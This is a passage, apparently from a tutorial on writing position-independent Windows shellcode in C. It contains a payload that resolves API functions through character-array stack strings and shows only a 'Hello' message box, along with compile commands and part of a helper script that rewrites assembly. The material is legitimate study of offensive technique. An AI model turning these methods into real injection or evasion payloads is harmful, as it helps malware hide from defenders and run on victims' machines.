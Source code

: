 ```c
    char load_lib_name[] = { 'L','o','a','d','L','i','b','r','a','r','y','A',0 };
    char get_proc_name[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s', 0 };

    HMODULE hKernel32 = _GetModuleHandleA(kernel32_dll_name);
    LPVOID pLoadLibraryA = _GetProcAddress(hKernel32, load_lib_name);
    HMODULE(WINAPI * _LoadLibraryA)(LPCSTR lpLibraryName) = (HMODULE(WINAPI*)(LPCSTR))pLoadLibraryA;

    char userenv_dll_name[] = { 'u','s','e','r','3','2','.','d','l','l', 0 };
    HMODULE hUserenv = _LoadLibraryA(userenv_dll_name);
    char messagebox_name[] = { 'M','e','s','s','a','g','e','B','o','x','A',0 };
    LPVOID pMessageBox = _GetProcAddress(hUserenv, messagebox_name);
    int(WINAPI * _MessageBox)(HANDLE hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType) = (int(WINAPI*)(HANDLE, LPCSTR, LPCSTR, UINT))pMessageBox;
    char messagebox_text[] = {'H','e','l','l','o',0};
    _MessageBox(NULL, messagebox_text, messagebox_text, 0x00000000L);
    return 0;
}
```

You can compile this payload on Windows with VS2022 with the following commands:

```
"C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\Tools\VsDevCmd.bat"
"C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.30.30705\bin\Hostx64\x64\cl.exe" /c /FA /GS- smartinject.c
python shellcode.py
"C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.30.30705\bin\Hostx64\x64\ml64.exe" smartinject_modified.asm /link /entry:AlignRSP /subsystem:windows
```

And the contents of shellcode.py are below. This is just a helper script that will fix up our assembly output before we link it.

- shellcode.py
    
    ```python
    import sys
    
    asm_file = []
    align_rsp = '''; https://github.com/mattifestation/PIC_Bindshell/blob/master/PIC_Bindshell/AdjustStack.asm
    
    ; AlignRSP is a simple call stub that ensures that the stack is 16-byte aligned prior
    ; to calling the entry point of the payload. This is necessary because 64-bit functions
    ; in Windows assume that they were called with 16-byte stack alignment. When amd64
    ; shellcode is executed, you can't be assured that you stack is 16-byte aligned. For example,
    ; if your shellcode lands with 8-byte stack alignment, any call to a Win32 function will likely
    ; crash upon calling any ASM instruction that utilizes XMM registers (which require 16-byte)
    ; alignment.
    
    AlignRSP PROC
        push rsi ; Preserve RSI since we're stomping on it
        mov rsi, rsp ; Save the value of RSP so it can be restored
        and rsp, 0FFFFFFFFFFFFFFF0h ; Align RSP to 16 bytes
        sub rsp, 020h ; Allocate homing space for ExecutePayload
        call ExecutePayload ; Call the entry point of the payload
        mov rsp, rsi ; Restore the original value of RSP
        pop rsi ; Restore RSI
        ret ; Return to caller
    AlignRSP ENDP
    '''
    #Track if we already inserted AlignRSP
    insertedAlign = False
    #Track if we're in a bad segment (pdata or xdata) that we don't want to write
    inBadSegment = False
    